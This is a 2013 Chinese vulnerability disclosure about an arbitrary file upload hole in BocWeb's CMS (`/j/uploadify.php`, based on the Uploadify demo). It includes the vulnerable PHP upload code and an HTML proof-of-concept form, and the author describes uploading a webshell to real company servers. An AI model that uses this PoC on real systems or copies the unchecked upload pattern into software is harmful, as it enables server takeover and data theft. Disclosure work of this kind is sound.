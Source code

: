 # 某CMS任意文件上传影响大量上市企业

Feei <feei#feei.cn> 11/2013

## 1. 漏洞入口
经常看到很多大企业官网底部标注着技术支持：杭州博采网络（[BocWeb](http://www.bocweb.cn)），比如吉利、万科、广厦、万向、大华。
后来*意外*获得一份BocWeb的CMS系统源码，简单审计了下发现很多问题。

其中以`/j/uploadify.php`这个最为严重，[Uploadify](http://www.uploadify.com)是一款用来处理上传文件的开源组件。

官网的`demo`中有一个`uploadify.php`用来演示后端处理上传文件的代码。
```php
<?php
/*
Uploadify
Copyright (c) 2012 Reactive Apps, Ronnie Garcia
Released under the MIT License <http://www.opensource.org/licenses/mit-license.php> 
*/

// Define a destination
$targetFolder = '/uploads'; // Relative to the root

if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    $targetPath = $_SERVER['DOCUMENT_ROOT'] . $targetFolder;
    $targetFile = rtrim($targetPath,'/') . '/' . $_FILES['Filedata']['name'];
    
    $fileParts = pathinfo($_FILES['Filedata']['name']);
    
    move_uploaded_file($tempFile,$targetFile);
    echo $targetFile;
}
?>
```

代码用来做演示是没问题，但集成到自己的系统中时如果没有做权限控制就直接是**任意文件上传**。


## 2. 漏洞证明

`bocweb-upload.html`
```
<!DOCTYPE html>
<html>
<head>
    <title>BocWeb Upload Demo</title>
</head>
<body>
    <form action="http://demo.feei.cn/bocweb/j/uploadify.php" method="post" enctype="multipart/form-data">
        <input type="text" name="folder" value="/">
        <input type="file" name="fileData" />
        <input type="submit" name="Upload">
    </form>
</body>
</html>
```

试了几个厂商：万科、绿城、广厦，直接上传小马拿SHELL，继而拿到服务器全部权限和数据。

## 3. 漏洞影响

**受影响厂商：300多家上市公司**

![](images/v_bocweb_02.jpg)

已提交补天平台，已经修复完成。

![](images/v_bocweb_01.png)

## 4. 意外发现

- 后来在[收集扫描规则](/payload)时发现360居然拿着我在补天提的漏洞给360网站卫士进行扫描。
- 2013年第一次提到补天上的，后来2015年在乌云上发现居然有人又提了一遍。黑人问号.jpg

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。
